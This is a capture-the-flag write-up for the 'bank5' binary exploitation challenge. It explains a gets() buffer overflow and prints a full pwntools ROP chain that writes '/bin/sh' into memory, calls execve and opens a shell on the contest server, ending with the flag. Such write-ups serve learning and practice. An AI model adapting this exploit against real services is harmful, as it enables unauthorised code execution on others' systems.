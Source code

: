 ## bank5 (200 points)

#### Solved by hieplpvip

```
nc 61.28.237.24 30206

author: xikhud
```

Decompiling `bank5` with IDA, we see that `getFlag` no longer exists. NX is also enabled, so we can not inject shellcode. However, as `bank5` is not PIE and uses gets (which accepts null bytes) to read our input, we can easily exploit the buffer overflow using ROP.

![](checksec.png)

Our goal is to call `execve("/bin/sh", NULL, NULL)`. We need to setup the registers as follows:

```
EAX = 11 - The execve syscall number
EBX = Address in memory of the string "/bin/sh"
ECX = NULL
EDX = NULL
```

`/bin/sh` doesn't exist in `bank5`, so we also need to put it in memory.

```py
from pwn import *

INT_0x80_ADDR = 0x08049553  # int 0x80
POP_EAX_ADDR = 0x0809d514  # pop eax ; ret
POP_EDX_ADDR = 0x0806dfab  # pop edx ; ret
POP_ECX_EBX_ADDR = 0x0806dfd2  # pop ecx ; pop ebx ; ret
MOV_EDX_INTO_EAX_ADDR = 0x0809cd34  # mov dword ptr [eax], edx ; ret
SAFE_ADDR = 0x080da320  # .bss section
EXEC = "/bin/sh\x00"
EXEC = [EXEC[:4], EXEC[4:]]

def write_mem(value, addr):
  if type(value) == int:
    value = pack(value)
  if type(value) == str:
    value = value.encode('utf-8')
  payload = pack(POP_EDX_ADDR) + value
  payload += pack(POP_EAX_ADDR) + pack(addr)
  payload += pack(MOV_EDX_INTO_EAX_ADDR)
  return payload

# Write EXEC into SAFE_ADDR
payload = b"A" * 80  # padding
payload += write_mem(EXEC[0], SAFE_ADDR)
payload += write_mem(EXEC[1], SAFE_ADDR + 4)

# Populate registers for the syscall
payload += pack(POP_EAX_ADDR) + pack(11)
payload += pack(POP_ECX_EBX_ADDR) + pack(0) + pack(SAFE_ADDR)
payload += pack(POP_EDX_ADDR) + pack(0)

# Syscall
payload += pack(INT_0x80_ADDR)
print(payload.hex())

conn = remote('61.28.237.24', 30206)
conn.sendline(payload)
conn.recv()
conn.interactive()
```

```
$ ls
bank5
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
HCMUS-CTF{rop_and_shellcode}
```

**Flag:** `HCMUS-CTF{rop_and_shellcode}`
